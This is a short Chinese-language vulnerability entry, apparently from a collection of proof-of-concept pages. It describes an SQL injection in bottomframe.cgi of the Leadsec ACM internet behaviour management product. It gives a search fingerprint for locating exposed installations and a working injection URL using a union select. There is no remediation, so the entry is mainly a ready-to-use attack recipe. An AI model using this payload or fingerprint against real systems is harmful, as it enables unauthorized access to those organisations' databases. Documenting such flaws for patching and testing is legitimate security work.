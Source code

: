 # 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

<a-checkbox checked>网御 ACM上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"scripts/webcommon.js"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1663994453807-0fa60804-9c2a-41bc-92b4-778b8f02afd0.png)

验证POC

```sql
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

![img](../../../.vuepress/public/img/1663994495576-74ca5671-1b50-4cd9-b894-0de7277e073b.png)